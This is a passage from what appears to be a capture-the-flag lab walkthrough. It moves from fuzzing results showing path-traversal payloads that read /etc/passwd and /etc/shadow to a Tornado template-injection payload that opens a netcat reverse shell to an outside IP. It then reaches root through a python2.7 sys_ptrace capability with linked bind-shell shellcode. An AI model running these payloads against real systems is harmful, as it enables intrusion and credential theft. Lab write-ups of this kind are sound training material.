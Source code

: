 	[Status: 200, Size: 274, Words: 10, Lines: 19]
		* W1: name
		* W2: %00../../../../../../etc/passwd

	[Status: 200, Size: 274, Words: 10, Lines: 19]
		* W2: %00../../../../../../etc/shadow
		* W1: name

	[Status: 200, Size: 240, Words: 10, Lines: 19]
		* W1: name
		* W2: %00/etc/passwd%00
	```
	![](Pasted%20image%2020220214034915.png)
4. Exploits we found earlier

	| Exploit                                                                        | URL                                                                                           |
	| ------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------- |
	| SSTI (Server Side Template Injection) ![](Pasted%20image%2020220214033937.png) | https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/            |
	| SSTI (Server Side Template Injection)  ![](Pasted%20image%2020220214033518.png)                                        | https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python |




5. Attempt SSTI
	![](Pasted%20image%2020220214035907.png)
6. URL Encode reverse shell payload
	![](Pasted%20image%2020220214040058.png)
	```
	# Payload
	{% import os %}{{os.system('rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.110.4+4444+%3E%2Ftmp%2Ff')}}
	```
7. Obtain shell
	![](Pasted%20image%2020220214040331.png)
	![](Pasted%20image%2020220214040759.png)


# Privilege Escalation

## Root - Via Linux Capabilities (SYS_PTRACE)
1. Linpeas
	![](Pasted%20image%2020220214044652.png)
	- `cap_sys_ptrace+ep` is set on `python2.7`, this can be used for privilege escalation. 
	- [`sys_ptrace` exploit demo](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)
2. Exploiting `sys_ptrace`
3. Find a process running as root
	``` 
	saket@ubuntu:/tmp$ ps aux | grep root
	...
	root         766  0.0  0.4 199780  4728 ?        Ss   20:15   0:00 /usr/sbin/apache2 -k start
	...
	```
	- `PID 766`
4. Download a [bindshell shellcode](https://www.exploit-db.com/exploits/41128) payload
	- This will start a bind shell at `TCP/5600`
5. Download[`inject.py`](https://gist.githubusercontent.com/wifisecguy/1d69839fe855c36a1dbecca66948ad56/raw/e919439010bbabed769d86303ff18ffbacdaecfd/inject.py) exploit
6. Add bindshell shellcode at Line 70